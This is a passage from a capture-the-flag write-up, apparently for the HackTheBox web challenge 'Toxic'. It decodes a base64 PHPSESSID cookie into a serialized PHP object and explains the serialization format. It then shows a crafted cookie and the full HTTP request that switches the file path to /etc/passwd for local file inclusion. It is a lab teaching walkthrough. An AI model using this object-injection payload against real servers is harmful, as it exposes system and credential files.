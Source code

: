 
After crawling through the website, nothing out of the ordinary was discovered. There was nothing on the website that looked for user-input, so common web vulnerabilities related to XSS and SQL were unlikely to be present on the website.

### Discovering Object Injection

However, after intercepting a request to the website with BurpSuite, it could be seen that the website provides a cookie to the client:

{% highlight bash %}
GET / HTTP/1.1  
  
Host: 167.99.88.212:30746User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateDNT: 1  
Connection: closeCookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9  
Upgrade-Insecure-Requests: 1
{% endhighlight %}

This is peculiar as there is no need for a cookie on the website because it does not have any functionality. Looking at the value for the cookie, the byte stream looks similar to base64. After base64 decoding it, the following interesting information is discovered:

{% highlight bash %}
┌─\[✗\]─\[0xd4y@Writeup\]─\[~/business/hackthebox/challenges/web/toxic\]  
└──╼ $echo -n Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9|base64 -d; echo  
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
{% endhighlight %}

From the decoded output, the cookie can be identified as a serialized PHP object.

#### Understanding PHP Serialized Objects

The O at the beginning of the output represents “Object”, and the number 9 represents the number of characters that comprise the name of the object (in this case it is “PageModel” which is nine characters in length). The letter “s” represents string, and it refers to the type of the data that it precedes.

LFI
---

Following the modification of /www/index.html to /etc/passwd, the server’s response changes:

{% highlight bash %}
└──╼ $echo -n '''O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}'''|base64  
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
{% endhighlight %}

Note that the data s:15 was modified to s:11 because /etc/passwd is 11 characters long

Request:

{% highlight bash %}
GET / HTTP/1.1Host: 167.99.88.212:30746  
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
DNT: 1  
Connection: close  
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=  
Upgrade-Insecure-Requests: 1
{% endhighlight %}
